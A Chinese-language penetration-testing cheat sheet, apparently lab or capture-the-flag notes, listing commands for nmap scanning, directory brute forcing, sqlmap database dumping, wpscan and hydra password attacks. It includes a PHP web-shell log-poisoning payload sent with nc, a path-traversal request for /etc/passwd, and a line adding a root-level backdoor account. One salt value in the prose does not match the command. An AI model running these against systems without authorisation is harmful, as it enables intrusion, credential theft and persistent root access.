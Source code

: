 ## Nmap
经典。扫描端口
```sh
nmap -p- -A -sC -sV 192.168.1.1 -VV -T5 //nmap常规扫描

sudo nmap -sU -sV -vv -oA quick_udp 192.168.200.149 //UDP扫描

sudo nmap -sS -sV -A -n 192.168.246.209

nmap -p 22 192.168.246.209 // 单扫端口
```

Host discovery
```sh
sudo nmap -sn 192.168.1.1/24
```

Connect Scan (TCP)
```sh
sudo nmap -sT <ip> -p- -A -Pn -v
```

SYN scan (TCP)
```sh
sudo nmap -sS <ip> -p- -A -Pn -v
```

UDP scan (UDP)
```sh
sudo nmap -sU <ip> -p- -A -Pn -v
```

Timing
```sh
sudo nmap ... -T0 # paranoid
sudo nmap ... -T1 # sneaky
sudo nmap ... -T2 # polite
sudo nmap ... -T3 # normal
```

Output
```sh
sudo nmap ... -oN scan
sudo nmap ... -oX scan
sudo nmap ... -oG scan
sudo nmap ... -oA scan
```

## Rustscan
扫描端口。***可能会扫漏，可以过几分钟再扫一次***
```sh
rustscan -a 192.168.152.72 --range 1-65535

rustscan -a 192.168.216.223 --range 1-65535 --ulimit 5000 -- -A
```
## Dirsearch
扫描目录。
```sh
dirsearch -u 192.168.216.223
```
## Dirb
扫描目录
```sh
dirb http://192.168.216.223 /usr/share/wordlists/dirb/big.txt
```
## Gobuster
扫描目录
```shell
gobuster dir -u 192.168.232.72:8593 -w /usr/share/wordlists/dirb/big.txt --no-error
```

中级字典，加上 `.zip` 后缀
```shell
gobuster dir -u http://192.168.237.219 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .zip
```
## Sqlmap
```sh
sqlmap -u http://192.168.152.72:8593/index.php?book=list
```

## Curl
查看响应头
```sh
curl -I 192.168.152.72
```

修改 UA (User-Agent)
```sh
sudo curl -s --user-agent GoogleBot http://192.168.225.14/robots.txt -v
```

`-v` verbose ，显示详细内容

发送 POST 请求
```sh
curl -X POST "http://139.224.130.183:32960/" -d "c=1024abc"
```

设置 Cookie
```sh
curl -b "session_id=123456" https://example.com
```

用 curl 修改X-Forwarded-For头
```sh
curl -H "X-Forwarded-For: 123.45.67.89" http://example.com
```

修改 Referer 头
```sh
curl -H "Referer: http://example.com" http://example.org
```
## Nc
`nc` 传小马，配合日志投毒
```sh
nc 192.168.218.72 80

GET /<?php system($_GET['cmd']); ?>
```

`nc`监听端口 4444
```sh
nc -nvlp 4444
```
## Wpscan
一款专门用来检测 CMS `Wordpress` 的软件

枚举用户名
```sh
wpscan --url http://loly.lc/wordpress/ --enumerate u
```

根据用户名爆破密码
```sh
wpscan --url http://loly.lc/wordpress -U loly -P /usr/share/wordlists/rockyou.txt
```

枚举用户名，插件，再进行密码爆破
```sh
wpscan --url http://funbox.fritz.box/ -e ap,u  --passwords /usr/share/wordlists/rockyou.txt
```

枚举(enumerate)插件(plugin)，主题(theme)，用户(user)
```sh
wpscan --url http://dc-2 -e p,t,u
```
## Cewl
Collect wordlist

抓取网站内容，提取出其中的单词，放入 `passwd` 文件中，如果没有这个文件，就创建。一般递归深度为 2 ，即抓取网站首页及链接的页面
```sh
cewl http://dc-2/ > password
```
## Sqlmap
POST 传参注入
用 `bp` 将请求包抓下来，然后
```sh
sqlmap -r search.txt
```

爆库
```sh
sqlmap -r search.txt --dbs
```

爆表
```sh
sqlmap -r search.txt -D <database> --tables
```

爆字段
```sh
sqlmap -r search.txt -D <database> -T <table> --columns
```

爆数据
```sh
sqlmap -r search.txt -D <database> -T <table> -C <column1,column2> --dump-all
```
## Wfuzz
```sh
wfuzz --hh 1341 -b "PHPSESSID=v83ig9f6u10pc2h1ht8cvvrn76" -c -w /usr/share/ wordlists/wfuzz/general/common.txt http://192.168.246.209/manage.php?FUZZ =../../../../../../../../etc/passwd
```
## Hydra
曾经有过扫不出来的经历。。。
```sh
hydra -L username.txt -P passwd.txt ssh://192.168.84.130
```
## Find
```sh
find / -name test.py 2>/dev/null 
```
## Openssl
通常用于创建 `/etc/passwd` 文件中存储的加密密码。
```sh
openssl passwd -1 -salt passion 123456
```
这条命令将输出一个使用 MD5 加密并带有盐值 `haruhi` 的加密密码。输出的格式通常是
这种生成的加密密码可以用在一些系统认证配置中，例如 Linux 系统的 `/etc/shadow` 文件中保存用户的密码信息。
配合 `/etc/passwd` 食用更佳
```sh
echo 'passion:$1$passion$6B1Neow110enwwaaEaWQs.:0:0::/root:/bin/bash' > passion
```

